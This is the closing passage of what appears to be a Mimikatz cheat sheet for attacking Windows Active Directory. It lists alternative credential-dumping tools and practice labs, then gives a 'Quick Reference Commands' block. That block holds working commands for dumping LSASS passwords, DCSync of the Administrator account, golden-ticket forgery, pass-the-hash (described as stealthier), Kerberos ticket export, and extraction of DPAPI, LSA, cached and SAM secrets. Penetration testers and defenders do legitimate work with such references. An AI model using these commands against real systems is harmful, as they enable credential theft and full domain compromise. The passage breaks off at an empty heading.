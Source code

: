 ### Alternative Tools & Techniques
- **SharpKatz:** https://github.com/b4rtik/SharpKatz
- **pypykatz:** https://github.com/skelsec/pypykatz
- **SafetyKatz:** https://github.com/GhostPack/SafetyKatz
- **Rubeus (Kerberos toolkit):** https://github.com/GhostPack/Rubeus
- **Impacket (secretsdump.py):** https://github.com/fortra/impacket

### Practice Environments
- **Active Directory Security Lab:** https://github.com/Orange-Cyberdefense/GOAD
- **Detection Lab:** https://github.com/clong/DetectionLab
- **HackTheBox / TryHackMe:** AD-focused boxes
- **PentesterLab:** Active Directory exercises

---

## Quick Reference Commands

```powershell
# Essential combo (credential dump)
privilege::debug
sekurlsa::logonpasswords

# DCSync specific user
lsadump::dcsync /user:Administrator /domain:corp.local

# Golden ticket
kerberos::golden /user:Admin /domain:corp.local /sid:S-1-5-21-XXX /krbtgt:HASH /ptt

# Pass-the-Hash with AES (stealthier)
sekurlsa::pth /user:Admin /domain:corp.local /aes256:KEY /run:cmd

# Offline LSASS dump parsing
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords

# Export all Kerberos tickets
kerberos::list /export

# Dump DPAPI secrets
sekurlsa::dpapi
dpapi::cred /in:C:\Users\user\AppData\Local\Microsoft\Credentials\*

# LSA secrets & cached credentials
lsadump::secrets
lsadump::cache
lsadump::sam
```

---

## Version & Compatibility Notes
